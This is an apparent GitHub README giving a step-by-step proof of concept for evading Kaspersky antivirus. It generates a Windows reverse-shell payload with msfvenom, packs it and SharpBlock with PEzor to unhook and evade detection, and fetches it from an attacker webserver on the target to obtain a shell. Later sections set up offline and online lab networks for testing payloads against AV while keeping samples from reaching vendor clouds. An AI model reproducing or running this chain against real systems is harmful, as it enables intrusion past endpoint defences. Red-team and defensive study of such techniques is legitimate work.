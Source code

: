 
### Full PoC against Kasp

Winning combo : SharpBlock + PEzor (bypass Kasp for the moment..)

1. Compile SharpBlock from source (using VStudio). It generates a file : SharpBlock.exe
2. Generate shellcode in raw format (here is an exemple for msf) : 

  ```sh
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HANDLER_IP> LHOST=<HANDLER_PORT> -f raw -o <SHELLCODE_NAME>.bin
  ```
3. Repack shellcode
  ```sh
  ./PEzor.sh -unhook -rx -sleep=150 <SHELLCODE_NAME>.bin
  ```
4. Repack SharpBlock adding arguments
  - HTTP webserver version :
  ```sh
  ./PEzor.sh -unhook -antidebug -text -rx -sleep=150 <SharpBlock.exe> -p '-e http://<IP_WEBSERVER>/<SHELLCODE_NAME>.bin.packed.exe -s "C:\Windows\System32\SecurityHealthSystray.exe"'
  ```

5. Setup your launcher (and webserver), and execute the packed binary file from the target

6. Be patient (around 5min depending on the sleep argument set), get your shell and enjoy :)

---

### Offline testing 

For testing using a Windows VM connecting to an offline C2 : 
1. Create a Windows VM and install the target AV.
2. Create a Linux VM and install a C2.
3. Set up the network interface to Host-Only for all VMs (Target(s) and C2).
4. Test your payloads and enjoy your shells :)
> You may want to use snapshots and/or linked clones after your infrastructure is ready so that you can trash your Windows VM after each test and pop a new one.

---

### Online testing 

For testing using a Windows VM connecting to an online C2 :

#### Context 

- Restrict Windows VM network
- No trust in the Windows VM firewall
- No need to alter the host firewall 

To restrict the Windows VM traffic to the C2 server only (we don't want our payloads to get sent to the AV cloud), we will create a new Linux VM and use is as a router/firewall.

#### Setup

1. Create a Windows VM and install the target AV.
2. Set up the network interface to Host-Only.
3. Create a Linux VM with 2 network interfaces (NAT and Host-only).
4. Enable ip forwarding : `echo "net.ipv4.forwarding=1">>/etc/sysctl.conf`
5. Setup the firewall as following : 
  ```
  #!/bin/bash
  WANIF=enp0s3
  LANIF=enp0s8
  # IPs to allow
  IP_ALLOWED=<IP_adress_to_allow>
  echo "flushing iptables..."
  sudo iptables -F
  ```